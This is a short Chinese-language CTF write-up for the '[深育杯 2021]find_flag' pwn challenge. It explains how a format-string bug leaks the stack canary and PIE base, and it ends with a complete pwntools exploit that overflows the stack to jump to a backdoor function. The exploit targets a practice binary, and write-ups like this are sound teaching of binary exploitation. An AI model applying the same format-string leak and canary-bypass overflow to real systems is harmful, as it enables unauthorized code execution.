



# [深育杯 2021]find_flag

这里还是要查看保护



发现保护全开

并且这里有一个格式化字符串漏洞

因此可以通过这个来泄露canary和pie



这里可以发现cananry


并且找到了pie的偏移地址计算的位置



因此我们的格式化字符串的位置为%17$p和%19$p

所以我们的exp：

```python
from pwn import*

p=process("/home/fofa/find_flag")
# p=remote("node4.anna.nssctf.cn",28914)
payload1='%17$paaa%19$p'
p.recvuntil("name?")
p.sendline(payload1)
# gdb.attach('b *$rebase(0x0132F)')
buf=p.recvuntil("!").decode()

tmp=buf.split(" ")[5].split("aaa")[0]
canary=int(tmp,16)
tmp=buf.split("aaa")[1].split("!")[0]
re_addr=int(tmp,16)
base_addr=re_addr-0x0146F
#print(type(base_addr))

back_door=base_addr+0x122E
payload2=b'a'*(0x40-0x8)+p64(canary)+b'a'*8+p64(back_door)
p.recvuntil(" else? ")
p.sendline(payload2)
p.interactive()
```

